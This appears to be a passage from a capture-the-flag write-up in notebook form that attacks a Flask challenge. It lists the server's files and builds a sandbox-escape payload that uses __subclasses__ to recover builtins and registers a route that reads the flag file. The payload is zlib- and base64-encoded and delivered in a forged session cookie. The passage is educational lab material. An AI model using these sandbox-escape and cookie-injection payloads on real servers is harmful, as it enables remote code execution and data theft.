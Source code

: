 
```python
print requests.session().get(url+"/e").text
```

    [('.', ['templates'], ['app.py', 'totally_not_a_loooooooong_flaaaaag']), ('./templates', [], ['index.html'])]


From the previous output we can see that the `totally_not_a_loooooooong_flaaaaag` is a file.

We can get it with the following payload.


```python
pl_read_ctf_file = """import flask,os;flask.current_app.add_url_rule('/w','w',open(os.listdir('.')[-1]).read"""
```


```python
ctf_cookie = from_payload_to_cookie_for_flask(make_the_payload_using_base64_and_zlib(make_a_statement_for_exec_consistent_with_sandbox(pl_read_ctf_file)),secret_key,debug_recipe=True)
```

    Recipe: d='%cdecode'%46+'%c'%40;exec "a=%s"%'"eJxNjt0KwjAMhV8l7CYtzKq3+ihjhK7NoNi1oz8oiO9u3JUXgY9zknPCL3ZqGIaw7bk0WKOtjzHX+wHG9VI4NbL7bqz31Euk0iMrPD9xRJm8c1K5mhhq86EoNKin03XWprD1Ejy+kWjpIbaQKhHeJgdrLuAgJFDaEDmpEkdosZUPqH05VBZdaQgroLMNfydO7GQ32YN5usy/hC17+cn813z0F41HSd8="'+d+'"base64")'+d+'"zlib")';exec a# =  
    LEN RECIPE: 302


Unfortunately the procedure we have implemented results into a payload that is too long! It was indeed not optimized for length rather for readability.

We try to reduce the length manually!



```python
pl_read_file_full_payload = """exec("import flask,os;flask.current_app.add_url_rule('/w','w',open(os.listdir('.')[-1]).read)",{'__builtins__':[c for c in ().__class__.__base__.__subclasses__() if 'cat' in c.__name__][0]()._module.__builtins__})"""
```


```python
print pl_read_file_full_payload
```

    exec("import flask,os;flask.current_app.add_url_rule('/w','w',open(os.listdir('.')[-1]).read)",{'__builtins__':[c for c in ().__class__.__base__.__subclasses__() if 'cat' in c.__name__][0]()._module.__builtins__})



```python
pl_with_encoding_for_ingredient = """d='%cdecode'%46+'%c'%40;exec "a=%s"%'"{}"'+d+'"base64")'+d+'"zlib")';exec a#""".format(pl_read_file_full_payload.encode('zlib').encode('base64').replace('\n',''))
```


```python
print pl_with_encoding_for_ingredient
```
